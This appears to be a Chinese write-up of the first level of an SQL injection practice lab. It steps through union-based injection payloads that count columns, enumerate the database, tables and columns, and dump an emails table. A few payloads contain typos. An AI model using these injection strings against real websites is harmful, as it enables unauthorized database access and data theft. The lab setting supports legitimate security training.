







# 第一关
# series-1

## 过程

看到提示Please input the ID as parameter with numeric value
意思是请输入一个ID值
先查看这个数据库有多少个字段
    
		?id=-1' order by 5 --+

回现报错
再试试3字段
    ?id-1' order by 3 --+

无回显报错
这时候再试试4字段，确保数据的正确性

回显报错
那么说明这个数据库的字段有3个
接下来查看数据库名
    ?id=-1' union select 1,2,datanase()--+

得到数据库security
接下来爆表名
    ?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
		emails,referers,uagents,users

爆出字段名

    ?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails'--+
		id,email_id
查看字段的东西
    ?id=-1' union select 1,group_concat(id),group_concat(email_id) from emails --+

过关～:D
